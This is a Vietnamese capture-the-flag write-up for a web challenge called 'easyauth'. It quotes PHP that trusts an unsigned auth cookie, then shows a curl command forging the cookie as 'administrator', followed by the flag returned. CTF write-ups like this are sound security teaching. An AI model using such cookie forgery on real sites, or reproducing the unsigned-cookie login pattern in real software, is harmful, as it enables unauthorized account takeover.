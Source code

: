 ## easyauth

> Can you gain admin access to this site?
>
> http://easyauth-afee0e67.ctf.bsidessf.net
>
>    [easyauth.php](./lib/easyauth.php)

#### WriteUp

Đọc qua đoạn code trên thì có thể thấy, đề bài nhắm vào vấn đề `cookie`, đại khái là cookie sẽ có dạng

```
 auth=username=xxx&date=xxx&
 ```

 Nhưng điểm yếu ở đây là thằng dev nó rãnh rỗi, sử dụng biến `$username` khi nhận được từ biến `$_POST['username']` không thích đâu, cứ thích phải thay đổi từ cookie mà ra cơ.

```
$args = array();
foreach($pairs as $pair) {
  if(!strpos($pair, '='))
    continue;

  list($name, $value) = explode('=', $pair, 2);
  $args[$name] = $value;
}
username = $args['username'];
```

Vì vậy, công việc của mình chỉ là thay đổi biến `username` từ cookie hay nói cách khác là tạo 1 cookie giả để lấy được tài khoản `administrator` thôi.

Mình sẽ sử dụng công cụ `curl` để chèn cookie giả vào header.

```
traioi$ curl http://easyauth-afee0e67.ctf.bsidessf.net/ -H "Cookie: auth=username=administrator&date=123&"
```

```
<h1>Welcome back, administrator!</h1>
<p>Congratulations, you're the administrator! Here's your reward:</p>
<p>FLAG:0076ecde2daae415d7e5ccc7db909e7e</p>
<p><a href='/index.php?action=logout'>Log out</a></p>
```

À há, flag kìa rồi, submit và lấy điểm thôi `FLAG:0076ecde2daae415d7e5ccc7db909e7e`
